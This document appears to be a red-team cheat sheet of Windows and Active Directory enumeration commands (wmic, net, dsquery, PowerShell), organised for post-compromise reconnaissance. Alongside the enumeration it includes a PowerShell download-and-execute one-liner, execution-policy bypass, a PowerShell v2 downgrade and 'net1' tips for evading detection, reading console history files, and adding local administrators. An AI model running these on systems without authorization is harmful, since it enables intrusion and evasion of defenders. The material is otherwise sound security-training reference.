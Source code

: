 ```yaml
---
tags:
  - Authenticated
  - Local
  - OPSEC
  - AD
---
```

## OS Context
---
Basic enum commands

|                                                         |                                                                                            |
| ------------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| **Command**                                             | **Result**                                                                                 |
| `hostname`                                              | Prints the PC's Name                                                                       |
| `[System.Environment]::OSVersion.Version`               | Prints out the OS version and revision level                                               |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Prints the patches and hotfixes applied to the host                                        |
| `ipconfig /all`                                         | Prints out network adapter state and configurations                                        |
| `set`                                                   | Displays a list of environment variables for the current session (ran from CMD-prompt)     |
| `echo %USERDOMAIN%`                                     | Displays the domain name to which the host belongs (ran from CMD-prompt)                   |
| `echo %logonserver%`                                    | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |

```PowerShell
systeminfo
```
## Powershell
---
```PowerShell
Get-Module
```
```PowerShell
Get-ExecutionPolicy -List
```
```PowerShell
Set-ExecutionPolicy Bypass -Scope Process
```
```PowerShell
Get-ChildItem Env: | ft Key,Value
```
```PowerShell
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```
```PowerShell
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```
## OPSEC Techniques
---
```PowerShell
powershell.exe -version 2
```
### **Checking Defenses**
---
```PowerShell
netsh advfirewall show allprofiles
```
```PowerShell
sc query windefend
```
```PowerShell
Get-MpComputerStatus
```
### Other users on host?
---
```PowerShell
qwinsta
```
### **Network Information**
---
```PowerShell
arp -a
ipconfig /all
route print
```

!!! info "note"
	Using arp -a and route print will not only benefit in enumerating AD environments, but will also assist us in identifying opportunities to pivot to different network segments in any environment.
### **Windows Management Instrumentation (WMI)**
---
```PowerShell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
```PowerShell
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
```
```PowerShell
wmic process list /format:list
```
```PowerShell
wmic ntdomain list /format:list
```
```PowerShell
wmic useraccount list /format:list
```
```PowerShell
wmic group list /format:list
```
```PowerShell
wmic sysaccount list /format:list
```
[https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4)
## **Net Commands**
---
```PowerShell
net accounts
```
```PowerShell
net accounts /domain
```
```PowerShell
net group /domain
```
```PowerShell
net group "Domain Admins" /domain
```
```PowerShell
net group "domain computers" /domain
```
```PowerShell
net group "Domain Controllers" /domain
```
```PowerShell
net group <domain_group_name> /domain
```
```PowerShell
net groups /domain
```
List of domain groups
```PowerShell
net localgroup
```
```PowerShell
net localgroup administrators /domain
```
```PowerShell
net localgroup Administrators
```
```PowerShell
net localgroup administrators [username] /add
```
```PowerShell
net share
```
```PowerShell
net user <ACCOUNT_NAME> /domain
```
```PowerShell
net user /domain
```
```PowerShell
net user %username%
```
Information about the current user
```PowerShell
net use x: \computer\share
```
```PowerShell
net view
```
```PowerShell
net view /all /domain[:domainname]
```
```PowerShell
Shares on the domains
```
```PowerShell
net view /domain 
```


!!! info "OPSEC"
	Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string.
## **Dsquery**
---
```PowerShell
C:\Windows\System32\dsquery.dll
```

!!! info "note"
	Elevated privs required for dsquery



```PowerShell
dsquery user
```
```PowerShell
dsquery computer
```
We can use a [dsquery wildcard search](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754232\(v=ws.11\)) to view all objects in an OU, for example.
```PowerShell
dsquery * "CN=Users,DC=DOMAIN,DC=LOCAL"
```
```PowerShell
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
```
```PowerShell
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```